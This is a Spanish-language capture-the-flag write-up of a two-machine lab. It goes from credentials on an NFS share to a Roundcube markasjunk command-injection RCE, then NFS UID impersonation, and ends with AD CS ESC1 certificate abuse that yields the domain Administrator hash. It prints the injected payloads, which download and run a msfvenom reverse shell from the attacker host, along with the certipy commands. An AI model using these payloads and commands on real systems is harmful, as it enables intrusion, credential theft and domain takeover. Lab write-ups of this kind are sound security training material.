Cadena de máquinas, dónde mediante un servicio nfs mal configurado se pueden extraer credenciales para lograr obtener un RCE en la aplicación
roundcube, se consigue posteriormente hacer movimiento horizontal con el fin de obtener acceso a la máquina DC01 mediante una explotación de
certificados del AD.

- **MAIL**
	- Initial Access
	- Shell como User
	- Shell como Peter.Turner (ML)
	- Root
- **DC01**
	- Initial Access (Administrator)


<h1>MAIL</h1>
---
<h2>INITIAL ACCESS</h2>
---
En primer lugar, empezamos realizando un escaneo sobre todos los puertos de la máquina en concreto:

```
Nmap scan report for 10.10.129.182
Host is up (0.056s latency).
Not shown: 65520 closed tcp ports (reset)
PORT STATE SERVICE VERSION

22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
25/tcp open smtp Postfix smtpd
80/tcp open http nginx 1.18.0 (Ubuntu)
110/tcp open pop3 Dovecot pop3d
111/tcp open rpcbind 2-4 (RPC #100000)
143/tcp open imap Dovecot imapd (Ubuntu)
587/tcp open smtp Postfix smtpd
993/tcp open ssl/imap Dovecot imapd (Ubuntu)
995/tcp open ssl/pop3 Dovecot pop3d
2049/tcp open nfs_acl 3 (RPC #100227)
38747/tcp open mountd 1-3 (RPC #100005)
40551/tcp open mountd 1-3 (RPC #100005)
41723/tcp open status 1 (RPC #100024)
42801/tcp open nlockmgr 1-4 (RPC #100021)
59665/tcp open mountd 1-3 (RPC #100005)
```

Una vez hecho esto, se procede a analizar el puerto 80, el cuál es el login de una aplicación roundcube, la cuál es básicamente un cliente de correo opensource. Añadir que al intentar entrar nos indica que se intenta redirigir hacía un dominio <strong>mail01.hybrid.vl</strong>, lo añadimos a nuestro **/etc/hosts** y nos carga correctamente el login.



Aquí se encuentra las primera dificultad a pasar, no tenemos credenciales válidas para la aplicación, así que de primeras deberíamos pensar una forma para llegarlas a obtener. Para esto, hay que remontarse al escaneo nmap del inicio, dónde en base a la experiencia de máquinas anteriores se puede ver una carpeta compartida mediante NFS.

Procedemos a obtener la carpeta compartida e indagar en los archivos extraídos con la finalidad de conseguir credenciales.



El archivo que más nos llama la atención es **dovecot-users**, el cuál es un servidor IMAP y POP3 de código abierto para sistemas Unix y Linux.



Obtenemos unas credenciales con las cuáles se accede a roundcube y encontramos el un correo que fue enviado por el usuario admin hacía peter.turner, que dice lo siguiente:



Se puede intuir que a partir de aquí la explotación irá por el lado del "plugin" del que hablan en el correo. Acto seguido se busca algún tipo de plugin con vulnerabilidad relacionado con roundcube, encontramos lo siguiente:

[Markasjunk](https://ssd-disclosure.com/ssd-advisory-roundcube-markasjunk-rce)



Se puede entender que cambiando el campo "identity" y luego mandando un correo como "junk" se puede ejecutar comandos arbitrarios en la máquina. 

Se procede a crear una shell con **msfvenom**, subirla y ejecutarla con este rce en **Settings >Identities** , los comandos para poder conseguirlo son los siguientes:

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.8.2.240 LPORT=80 -f elf > shell`

```
admin&wget${IFS}10.8.2.240/shell${IFS}-O${IFS}/tmp/shell&@hybrid.vl

admin&chmod${IFS}+x${IFS}/tmp/shell&@hybrid.vl

admin&/tmp/shell&@hybrid.vl
```



Se pone un puerto a la escucha y se obtiene una reverse shell como el usuario **www-data**.

<h2>USER</h2>
-----

Una vez obtenida la reverse shell, lo primero que se visualiza es un usuario peter.turner@hybrid.vl en el directorio **/home/**.



Después de un rato mirando posibles vectores de movimiento lateral a dicha cuenta se sigue el mismo procedimiento que se hizo en su día con la máquina squashed de hackthebox, sigo este writeup.

[Squashed](https://medium.com/@joemcfarland/hack-the-box-squashed-writeup-44291fc2559a)



Se crea un usuario con el mismo uid en nuestro sistema atacante, con los siguientes comandos.

```
sudo useradd uwu
sudo usermod -u 902601108 uwu
sudo passwd uwu 
su uwu
```

Después de intentarlo con scripts en sh, python y demás... descargamos /bin/bash de **MAIL** y lo subimos a nuestra carpeta compartida local.



Se puede visualizar que a pesar que haberlo descargado en nuestra máquina local, al ser el mismo UID que peter.turner, ha pillado su contexto en la máquina victima.

****

Activamos bit-suid desde nuestra máquina con el usuario **uwu** y obtenemos shell como peter.turner.



<h3>PETER.TURNER MOVIMIENTO LATERAL</h3>
--------

En la home del usuario **peter.turner** se puede visualizar la flag del usuario, pero además un archivo **paswords.kdbx** que se abre  justamente con la misma contraseña que encontramos anteriormente para la aplicación roundcube.





Se encuentran las credenciales de dominio para peter.turner, lo cuál nos indica que quizás se pueden usar en la otra máquina.

<h2>ROOT</h2>
-----------

Para conseguir acceso como root, usamos las credenciales de dominio recién encontradas para loggearnos mediante SSH y con un **sudo -l** se puede conseguir acceso como root.



Ahí obtenemos la flag de root.

<h1>DC01</h1>
-----
<h2>INITIAL ACCESS</h2>
-----
Escaneo de la máquina:

```+
Nmap scan report for 10.10.129.181
Host is up (0.055s latency).
Not shown: 65521 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION

53/tcp open domain Simple DNS Plus
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: hybrid.vl0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: hybrid.vl0., Site: Default-First-Site-Name)
3389/tcp open ms-wbt-server Microsoft Terminal Services
49667/tcp open msrpc Microsoft Windows RPC
49669/tcp open msrpc Microsoft Windows RPC
49711/tcp open msrpc Microsoft Windows RPC
60259/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
60261/tcp open msrpc Microsoft Windows RPC
60290/tcp open msrpc Microsoft Windows RPC

```

Después de pasar un buen rato intentando acceder a los diferentes servicios, decidí mirar los certificados del AD como última opción sin mucha esperanza.

`certipy-ad find -username peter.turner@hybrid.vl -password '*********'  -dc-ip 10.10.204.117`



Nos devuelve lo siguiente, en lo cuál podemos ver que en la template HybridComputers, existe una vulnerabilidad ESC1 para la cuál necesitamos Domain Computers para su explotación.



Anteriormente, se ha podido dumpear la información del LDAP y hemos podido visualizar que sistemas se encuentran dentro del grupo "Domain Computers":

`ldapdomaindump -u hybrid.vl\\peter.turner -p '*********' ldap://10.10.176.229`



Entonces la explotación sería en base a hacer la explotación con la cuenta de la máquina MAIL01, osea MAIL01$ para poder hacer el enroll a la template HybridComputers.

Para esta parte después de horas intentando encontrar la manera de la explotación, tuve que mirar un writeup de la máquina dónde explicará los pasos a seguir.

Los pasos a seguir para lograr la explotación son los siguientes:

- Obtener el hash de la cuenta MAIL01$.
- Se obtiene el certificado con el usuario MAIL01$.
- Se obtiene el has del usuario Administrador.
-  Se realiza la conexión mediante winrm.

El fichero keytab como tal de la cuenta MAIL01$ se encuentra en el fichero **`/etc/krb5.keytab`** de la máquina **MAIL01** una vez obtenido, de aquí podemos extraer el NT HASH para poder reusarlo en sistemas windows.

`For Linux users, `**KeyTabExtract**` offers functionality to extract the RC4 HMAC hash, which can be leveraged for NTLM hash reuse.`



[Keytabextract](https://raw.githubusercontent.com/sosdave/KeyTabExtract/master/keytabextract.py)



Con esto se puede proceder a obtener el certificado con el usuario MAIL01$.



A continuación, especificamos el size que obtuvimos en la shared folder.

`openssl x509 -in ./fullchain.pem -noout -text`



Volvemos a tirar el comando está vez con el size.

`certipy-ad req -u 'MAIL01$' -hashes ":0f916c5246fdbc7ba95dcef4126d57bd" -dc-ip 10.10.204.117 -ca 'hybrid-DC01-CA' -template 'HYBRIDCOMPUTERS' -upn 'administrator' -target 'dc01.hybrid.vl' -key-size 4096 -debug`



Se obtiene finalmente el hash para el usuario administrator@hybrid.vl

`certipy-ad auth -pfx 'administrator.pfx' -username 'administrator' -domain 'hybrid.vl' -dc-ip 10.10.204.117`



Por último lugar, realizamos la conexión mediante mediante winrm.




